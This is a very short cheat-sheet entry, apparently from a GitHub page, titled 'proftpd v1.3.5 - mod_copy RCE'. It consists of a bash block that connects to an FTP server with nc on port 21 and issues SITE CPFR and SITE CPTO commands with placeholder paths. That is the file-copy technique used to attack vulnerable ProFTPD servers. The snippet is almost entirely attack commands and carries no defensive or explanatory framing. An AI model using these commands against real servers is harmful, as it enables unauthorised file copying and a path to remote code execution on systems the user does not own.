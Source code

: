 # proftpd v1.3.5
- mod_copy RCE
```bash
nc 0.0.0.0 21
SITE CPFR /path/to/file
SITE CPTO /path/to/destination/file
```